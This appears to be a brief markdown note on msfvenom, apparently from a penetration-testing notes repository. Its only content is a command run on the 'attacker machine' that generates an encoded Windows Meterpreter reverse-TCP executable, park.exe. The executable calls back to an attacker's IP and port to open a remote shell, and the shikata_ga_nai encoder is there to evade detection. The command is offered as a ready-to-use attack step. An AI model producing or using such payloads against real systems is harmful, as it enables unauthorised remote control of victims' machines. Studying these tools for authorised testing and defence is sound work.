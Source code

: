 ## Notes about msfvenom 

```bash
#in attacker machine
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[ip_localAttackerMachine] LPORT=[listaining_port] -f exe -o park.exe
#generate payload

```